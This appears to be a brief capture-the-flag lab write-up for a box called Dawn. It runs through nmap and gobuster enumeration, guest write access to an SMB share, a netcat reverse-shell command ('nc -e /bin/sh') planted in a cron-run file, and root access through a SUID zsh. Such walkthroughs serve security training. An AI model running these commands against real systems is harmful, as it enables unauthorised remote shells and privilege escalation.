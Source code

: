 192.168.154.11

add 192.168.154.11 to /etc/hosts as dawn.pg

NMAP scan: nmap -sC -sV -vv 192.168.154.11
    ![](/Screenshots/2022-10-10-08-08-35.png)

gobuster: gobuster web for web discovery using 2.3-medium.txt from seclist
    ![](/Screenshots/2022-10-10-08-12-25.png)

/logs:
    ![](/Screenshots/2022-10-10-08-13-02.png)

management.log:
    ![](/Screenshots/2022-10-10-08-14-59.png)

Management.log is a pspy64 leak. Here we can see that there's scheduled file execution:

    "smbclient -L 192.168.154.11" 
shows that ITDEPT is a directory, so we can try to access it as guest.

    smbclient \\\\192.168.154.11\\ITDEPT

we can access it and also write to it, with the scheduled file execution we can get a shell

    echo "nc -e /bin/sh 0.0.0.0 4444" > production-control

Now upload production-control to the SMB set up a nc listener and wait.

We have a basic shell as dawn.

first flag secured!

    sudo -l 
reveals we have NOPASS execution ofn mysql, but running it doesn't really help us since we need root's pw.

    find / -perm /4000 2>/dev/null

Shows us that zsh is set as SUID

    /usr/bin/zsh -p
and we're root. Root flag secured.

 
    